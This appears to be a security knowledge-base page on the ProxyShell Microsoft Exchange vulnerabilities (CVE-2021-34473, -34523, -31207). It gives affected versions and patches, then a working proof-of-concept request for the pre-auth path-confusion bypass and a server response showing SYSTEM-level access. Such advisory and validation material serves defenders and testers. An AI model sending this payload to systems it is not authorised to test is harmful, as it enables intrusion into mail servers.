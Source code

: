 ```yaml
---
title : "CVE-2021-34473"
# pre : ' '
description : "ProxyShell, the name given to a collection of vulnerabilities for Microsoft Exchange servers, enables an actor to bypass authentication and execute code as a privileged user."
date : 2021-08-25T09:47:29+02:00
# hidden : true
# draft : true
weight : 0
# tags : ['']
---
```


## CVE-2021-34473 / CVE-2021-34523 / CVE-2021-31207 | ProxyShell

CVE-2021-34473
Pre-auth path confusion vulnerability to bypass access control
Patched in [KB5001779](https://support.microsoft.com/help/5001779), released in April

CVE-2021-34523
Privilege elevation vulnerability in the Exchange PowerShell backend
Patched in [KB5001779](https://support.microsoft.com/help/5001779), released in April

CVE-2021-31207
Post-auth remote code execution via arbitrary file write
Patched in [KB5003435](https://support.microsoft.com/help/5003435), released in May

This vulnerability affects:

* Exchange 2013 CU23 < 15.0.1497.15
* Exchange 2016 CU19 < 15.1.2176.12, Exchange 2016 CU20 < 15.1.2242.5
* Exchange 2019 CU8 < 15.2.792.13, Exchange 2019 CU9 < 15.2.858.9

## Examples

#### Validating POC

```plain
https://<<ip>>/autodiscover/autodiscover.json?@foo.com/mapi/nspi/?&Email=autodiscover/autodiscover.json%3f@foo.com
```

```plain
GET /autodiscover/autodiscover.json?@foo.com/mapi/nspi/?&Email=autodiscover/autodiscover.json%3f@foo.com HTTP/1.1
Host: exch.offsec.nl
Accept-Charset: iso-8859-1,utf-8;q=0.9,*;q=0.1
Accept-Language: en
Connection: Close
User-Agent: Mozilla/4.0 (compatible; MSIE 8.0; Windows NT 5.1; Trident/4.0)
Pragma: no-cache
Accept: image/gif, image/x-xbitmap, image/jpeg, image/pjpeg, image/png, */*
```

```plain
HTTP/1.1 200 OK
Cache-Control: private
Content-Type: text/html
Server: Microsoft-IIS/8.5
request-id: af2ae0ee-6593-4523-8fa1-5d283d7ae3da
X-CalculatedBETarget: exch.offsec.nl
X-ServerApplication: Exchange/15.01.1913.012
X-DiagInfo: EXCH
X-BEServer: EXCH
X-AspNet-Version: 4.0.30319
Set-Cookie: X-BackEndCookie=; expires=Sun, 25-Aug-1991 07:43:18 GMT; path=/autodiscover; secure; HttpOnly
X-Powered-By: ASP.NET
X-FEServer: EXCH
Date: Wed, 25 Aug 2021 07:43:17 GMT
Connection: close
Content-Length: 522

<html>
<head>
<title>Exchange MAPI/HTTP Connectivity Endpoint</title>
</head>
<body>
<p>Exchange MAPI/HTTP Connectivity Endpoint<br><br>Version: 15.1.1913.12<br>Vdir Path: /mapi/nspi/<br><br></p><p><b>User:</b> NT AUTHORITY\SYSTEM<br><b>UPN:</b> <br><b>SID:</b> S-1-5-18<br><b>Organization:</b> <br><b>Authentication:</b> Negotiate<br><b>PUID:</b> <br><b>TenantGuid::</b> </p><br><p><b>Cafe:</b> exch.offsec.nl<br><b>Mailbox:</b> exch.offsec.nl</p><p><br><br><br><b>Created:</b> 25-8-2021 07:43:18</p></body></html>
```

## URL List

* [Zerodayinitiative.com - From Pwn2Own 2021: A New Attack Surface on Microsoft Exchange - ProxyShell!](https://www.zerodayinitiative.com/blog/2021/8/17/from-pwn2own-2021-a-new-attack-surface-on-microsoft-exchange-proxyshell)
* [News.sophos.com - ProxyShell vulnerabilities in Microsoft Exchange What to do](https://news.sophos.com/en-us/2021/08/23/proxyshell-vulnerabilities-in-microsoft-exchange-what-to-do/)
